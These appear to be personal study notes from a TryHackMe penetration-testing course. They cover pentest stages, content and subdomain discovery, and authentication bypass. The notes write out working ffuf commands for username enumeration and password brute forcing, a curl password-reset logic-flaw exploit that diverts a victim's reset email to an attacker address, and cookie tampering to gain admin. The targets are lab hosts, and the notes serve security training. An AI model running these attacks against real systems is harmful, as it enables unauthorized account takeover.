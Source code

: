 # THM Jr Penetration Tester

# Web Hacking

## Offensive intro
Brute force website to find hidden pages and directories  
`gobuster -u http://fakebank.thm -w wordlist.txt dir`

## Defensive intro
Security Operations Center (SOC), inc. Threat Intelligence  
Digital Forensics and Incident Response (DFIR), inc. Malware Analysis

## Stages

**Information Gathering**  
This stage involves collecting as much publically accessible information about a target/organisation as possible, for example, OSINT and research.  
Note: This does not involve scanning any systems.  

**Enumeration/Scanning**  
This stage involves discovering applications and services running on the systems. For example, finding a web server that may be potentially vulnerable.  

**Exploitation**  
This stage involves leveraging vulnerabilities discovered on a system or application. This stage can involve the use of public exploits or exploiting application logic.  
  
**Privilege Escalation**  
Once you have successfully exploited a system or application (known as a foothold), this stage is the attempt to expand your access to a system. You can escalate horizontally and vertically, where horizontally is accessing another account of the same permission group (i.e. another user), whereas vertically is that of another permission group (i.e. an administrator).  

**Post-exploitation**	 
This stage involves a few sub-stages:  
1. What other hosts can be targeted (pivoting)  
2. What additional information can we gather from the host now that we are a privileged user  
3. Covering your tracks  
4. Reporting

## Web Application walkthrough
In HTML source we can find:  
- `comments` and `hidden links` in html source
- `directories` for open permissions  
- `framework version`  
- `manipulate` HTML via inspector  
- breakpoint `debugger` in js code  
- `network` information  

## Content Discovery

**Manual**  
- `robots.txt`
- `favicon` revealing the framework used (md5 sum the result and look in https://wiki.owasp.org/index.php/OWASP_favicon_database)  
- `sitemap.xml` (more URLs)  
- `curl -v` (check versions of software used)  
- `admin URL` for instance gotten from framework websites

**OSINT**  
- `site:tryhackme.com admin` Google hacking/dorking  
- `technologies` used with Wappalyzer (https://www.wappalyzer.com/)  
- The Wayback Machine `https://archive.org/web/`
- `GitHub`'s search feature to look for company names or website names
- `S3 buckets` can be discovered  

**Automated**  
- `wordlists` for passwords, directories and filenames  
- Automation tools like `ffuf, dirb and gobuster`

## Subdomain Enumeration

3 different subdomain enumeration methods: Brute Force, OSINT and Virtual Host   

**OSINT**  
-  `Certificate search` for subdomains: https://crt.sh and https://ui.ctsearch.entrust.com/ui/ctsearchui
-  `Search engine` for subdomains: site:*.domain.com -site:www.domain.com
-  Automate search engine listing `./sublist3r.py -d acmeitsupport.thm`  

**Brute Force**
- `dnsrecon` try many domains dnsrecon -t brt -d acmeitsupport.thm

**Virtual Host**
- brute force subdomain that could be in /etc/host `ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.50.172 -fs {size}`  

## Authentication Bypass

**Username Enumeration**  
- `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.239.105/customers/signup -mr "username already exists" | grep "\[Status: 200" | awk '{print $1}' > valid_usernames.txt` finds valid usernames that exists  

**Brute Force**  
- Then use common passwords: `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.239.105/customers/login -fc 200`  

**Logic Flaw**  
Playing with the fact  PHP $_REQUEST variable is an array that contains data received from the query string _AND_ POST data. We do this 2 queries:  
- `curl 'http://10.10.164.175/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`
Create an account and then:    
- `curl 'http://10.10.164.175/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`

**Cookie Tampering**  
- Set the cookie `curl -H "Cookie: logged_in=true; admin=true" http://10.10.164.175/cookie-test`
- `Find md5 content` by looking up DB of hashes such as ` https://crackstation.net/`  
- `Decode/Encode base64 content` i.e: {"id":1,"admin": false} becomes {"id":1,"admin": true}

## IDOR



